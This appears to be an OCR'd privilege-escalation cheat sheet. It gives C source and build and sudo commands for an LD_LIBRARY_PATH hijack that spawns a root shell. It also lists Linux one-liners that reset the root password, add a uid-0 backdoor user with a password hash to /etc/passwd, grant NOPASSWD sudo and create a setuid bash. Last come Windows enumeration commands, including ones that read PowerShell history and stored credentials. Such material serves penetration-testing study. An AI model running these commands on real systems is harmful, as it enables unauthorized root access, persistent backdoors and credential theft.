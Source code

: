 1 /* Library_path.c */
2
3 #include <stdio.h>
4 #include <stdlib.h>
5
6 static void hijack() __attribute__((constructor));
7
8 void hijack() {
9 unsetenv("LD_LIBRARY_PATH");
10 setresuid(0,0,0);
11 system("/bin/bash -p");
12 }

gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c

Run program using sudo, while settings the LD_LIBRARY_PATH environment variable to
/tmp (where we output the compiled shared object):
sudo LD_LIBRARY_PATH=/tmp program-name-here

Escalation Methods

1 echo root:gl0b0 | /usr/sbin/chpasswd
2
3 // exploit : exploit (pwd)
4 echo "exploit:YZE7YPhZJyUks:0:0:root:/root:/bin/bash" >> /etc/passwd | su -
5
6 nano /etc/passwd -> change GID to root
7
8 nano /etc/sudoers -> user ALL=(ALL) NOPASSWD:ALL
9
10 cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash;
11 /tmp/rootbash -p

Windows Privilege Escalation

Enumeration

OS Info Enumeration
systeminfo
hostname
echo %username%
wmic qfe -> check patches
wmic logicaldisk -> get other disk information
User Enumeration
whoami
whoami /priv -> check user privilleges
whoami /groups -> check user groups
net user -> list all users
net user <username> -> check groups associated with a user
net localgroup -> Check all the local groups available
net localgroup <group name> -> List the members of the given localgroup
Task | Service | Process Enumeration
sc queryex type= service (Lists all the service)
tasklist /SVC
tasklist
net start
DRIVERQUERY
wmic product get name, version, vendor
Permission Enumeration
C:\Program Files : icacls program_name
icacls root.txt /grant <username>:F (to grant permission to access file)
Check the PowerShell history file
type
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadlin
e\ConsoleHost_history.txt
Check stored usernames and passwords
cmdkey /list